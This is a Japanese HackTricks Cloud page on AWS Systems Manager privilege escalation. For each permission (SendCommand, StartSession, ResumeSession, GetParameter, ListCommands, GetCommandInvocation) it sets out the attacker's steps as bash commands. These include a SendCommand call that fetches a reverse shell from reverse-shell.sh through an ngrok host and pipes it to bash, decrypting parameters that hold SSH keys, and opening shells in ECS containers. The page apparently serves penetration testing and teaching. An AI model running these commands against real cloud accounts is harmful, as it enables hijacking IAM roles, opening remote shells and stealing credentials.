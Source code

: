 # AWS - SSM特権昇格

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* もし、あなたの**会社をハックトリックで宣伝したい**場合や、**PEASSの最新バージョンを見たい**場合、または**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしましょう 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## SSM

SSMについての詳細は以下を参照してください：

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`**の権限を持つ攻撃者は、Amazon SSMエージェントを実行しているインスタンスで**コマンドを実行**し、それによって**IAMロールを侵害**することができます。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**潜在的な影響:** SSMエージェントが実行されているインスタンスにアタッチされたEC2 IAMロールへの直接の特権昇格。

### `ssm:StartSession`

**`ssm:StartSession`**権限を持つ攻撃者は、Amazon SSMエージェントが実行されているインスタンスで**SSHのようなセッションを開始**し、それに内部で実行されているIAMロールを**侵害**することができます。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
**潜在的な影響:** 実行中のSSMエージェントが実行されているEC2 IAMロールへの直接の特権昇格。

#### ECSへの特権昇格

**ECSタスク**が**`ExecuteCommand`が有効**な状態で実行される場合、十分な権限を持つユーザーは`ecs execute-command`を使用してコンテナ内でコマンドを実行することができます。\
[**ドキュメント**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)によると、これは「_exec_」コマンドを開始するデバイスとSSMセッションマネージャーを介してターゲットコンテナ間に安全なチャネルを作成することで行われます。\
したがって、`ssm:StartSession`を持つユーザーは、そのオプションが有効なECSタスク内でシェルを取得することができます。以下のコマンドを実行します。
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (55).png>)

**潜在的な影響:** `ExecuteCommand`が有効な実行中のタスクにアタッチされた`ECS`IAMロールへの直接の特権昇格。

### `ssm:ResumeSession`

**`ssm:ResumeSession`**権限を持つ攻撃者は、Amazon SSMエージェントを実行しているインスタンスで**切断されたSSMセッション状態でSSHのようなセッションを再開**し、それに内部で実行されているIAMロールを**侵害**することができます。
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**潜在的な影響:** SSMエージェントが実行され、セッションが切断された状態で実行中のEC2 IAMロールへの直接の特権昇格。

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

上記の権限を持つ攻撃者は、**SSMパラメータ**をリスト化し、**平文で読み取る**ことができます。これらのパラメータには、SSHキーやAPIキーなどの**機密情報**が頻繁に含まれています。
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**潜在的な影響:** パラメータ内の機密情報を見つけることができます。

### `ssm:ListCommands`

この権限を持つ攻撃者は、送信されたすべての**コマンド**をリストアップし、それらに関する**機密情報**を見つけることができるかもしれません。
```
aws ssm list-commands
```
**潜在的な影響:** コマンドライン内の機密情報を見つけることができます。

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

これらの権限を持つ攻撃者は、送信されたすべての**コマンド**をリスト化し、生成された**出力**を読み取ることができます。これにより、**機密情報**を見つけることができるでしょう。
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**潜在的な影響:** コマンドラインの出力内に含まれる機密情報を見つけることができます。

### Codebuild

SSMを使用して、ビルド中のcodebuildプロジェクトにアクセスすることもできます：

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もし、**HackTricksで会社を宣伝したい**場合や、**PEASSの最新バージョンを入手したい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローしましょう 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>
